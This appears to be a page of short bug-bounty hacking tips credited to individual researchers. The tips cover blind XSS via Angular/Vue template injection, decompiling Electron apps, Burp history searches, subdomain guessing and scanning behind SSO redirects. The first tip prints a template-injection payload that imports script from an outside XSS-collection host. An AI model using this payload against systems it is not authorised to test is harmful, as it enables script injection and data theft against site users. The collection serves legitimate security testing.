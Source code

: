 
### Blind XSS in JS frameworks:

Testing applications using <span style="color:red">Angular</span> or <span style="color:red">Vue.js</span>? Don't forget to wrap your build XSS payloads in a template injection payload, e.g.:

`{{constructor.constructor('import("https://jr0ch17.xss.ht")')()}}`

Not a lot of people test this!

Credit: @JR0ch17

---

### Get source code of Electron apps:

When working on Electron apps, try decompiling them with this command:

`asar extract app.asar <DEST FOLDER>`

It gets a lot easier to hack apps with their source code!

Credit: @spaceraccoonsec

---

### Burp's HTTP History:

Encounter an odd ID or API?
Always do a search in your Burp History. It might be used elsewhere!

![43cf5749db53f3941b94b4dfb63d5e48.png](3525ae401ed040b5b65d1ff6d71d0ee5.png)

Credit: @alxbrsn

---

### Guessing Subdomains:

Run subdomain discovery on domains owned by the target company but out-of-scope, use the result as a subdomain wordlist for in-scope domains.

<span style="color:red">Found</span> http://secret.**<span style="color:red">out-of-scope</span>**.com

<span style="color:red">Try</span> http://secret.**<span style="color:red">in-scope</span>**.com

Credit: @healthyoulet

---

### SSO Redirects

Don't trust SSO implementations, if you face a target with 302 redirect to SSO pick a wordlist and <span style="color:red">scan folders/files before redirect</span>, you will find reachable stuff and data makes SSO useless. 

Credit: @Th3G3nt3lman

---